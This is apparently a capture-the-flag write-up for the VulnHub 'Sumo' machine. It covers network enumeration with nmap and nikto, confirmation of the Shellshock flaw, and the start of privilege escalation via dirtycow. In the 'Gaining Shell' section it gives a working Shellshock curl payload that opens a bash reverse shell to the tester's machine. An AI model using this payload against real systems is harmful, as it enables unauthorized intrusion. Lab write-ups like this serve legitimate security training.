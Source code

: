 # Sumo

### 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l
Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1	00:50:56:c0:00:01	VMware, Inc.
192.168.127.133	00:0c:29:6c:b0:85	VMware, Inc.
192.168.127.254	00:50:56:ea:34:a1	VMware, Inc.
```

The IP address is `192.168.127.133`, let's enumerate it.

### 2.Enumeration

```bash
root@kali: nmap -p- -sT -sV -sC -v -oN nmap.out 192.168.127.133
Nmap scan report for 192.168.127.133
Host is up (0.00033s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:6C:B0:85 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

try to scan port 80 with `nikto` :

```bash
root@kali: nikto -h 192.168.127.133
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b0b2b5ff-8ca4-4de2-8e60-05778cf42758)

site is vulnerable to shellshock, we can confirm it by nmap too :

```bash
nmap 192.168.127.133 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/test
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-01 06:14 EDT
Nmap scan report for 192.168.127.133
Host is up (0.00039s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
MAC Address: 00:0C:29:6C:B0:85 (VMware)
```

we just need to execute a reverse shell command to get the shell


### 3.Gaining Shell

Use the below command to get the shell :

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.127.128/4444 0>&1' http://192.168.127.133/cgi-bin/test
```

```bash
www-data@ubuntu:/var/www$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 4.Privilege Escalation

Since this is an old machine, we can use dirtycow exploit :

```bash
www-data@ubuntu:/var/www$ uname -a
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux

www-data@ubuntu:/var/www$ cat /etc/*-release
cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04 LTS"
```

use `dirtycow.c` from [here](https://github.com/firefart/dirtycow/blob/master/dirty.c)
















